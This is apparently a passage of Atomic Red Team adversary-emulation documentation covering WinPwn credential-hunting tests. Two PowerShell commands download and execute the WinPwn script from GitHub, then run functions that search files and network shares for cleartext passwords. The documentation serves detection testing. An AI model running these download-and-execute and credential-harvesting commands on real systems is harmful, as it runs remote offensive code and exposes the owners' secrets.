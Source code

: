 
**auto_generated_guid:** 114dd4e3-8d1c-4ea7-bb8d-8d8f6aca21f0






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
sensitivefiles -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #8 - WinPwn - Snaffler
Check Domain Network-Shares for cleartext passwords using Snaffler function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** fdd0c913-714b-4c13-b40f-1824d6c015f2






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Snaffler -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #9 - WinPwn - powershellsensitive
Check Powershell event logs for credentials or other sensitive information via winpwn powershellsensitive function.

**Supported Platforms:** Windows


**auto_generated_guid:** 75f66e03-37d3-4704-9520-3210efbe33ce
